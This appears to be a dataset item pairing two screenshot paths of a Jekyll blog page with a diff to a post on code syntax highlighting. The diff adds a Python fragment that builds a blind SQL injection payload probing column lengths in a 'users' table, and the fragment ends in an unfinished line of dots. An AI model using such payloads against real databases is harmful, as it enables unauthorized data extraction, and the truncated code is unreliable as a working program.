

Before and after one commit to danieldavidson/danieldavidson.github.io, a Jekyll site: the page built from _posts/2016-10-01-code-syntax-highlighting.md, in a window 1280 px wide and 900 px high, scrolled down 897 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2016-10-01-code-syntax-highlighting.md

```diff
--- a/_posts/2016-10-01-code-syntax-highlighting.md
+++ b/_posts/2016-10-01-code-syntax-highlighting.md
@@ -61,6 +61,14 @@ def find_data(column, length, column_num):
                 data += ch
                 break
     return data
+
+def find_columnLength(column, column_num):
+    length = 1
+    while True:
+      payload = "cn' or (select length({}) from users limit {},1) = {}-- -".
+      format(
+            column, column_num, length)
+      ........................................................
 {% endhighlight %}
 
 
```
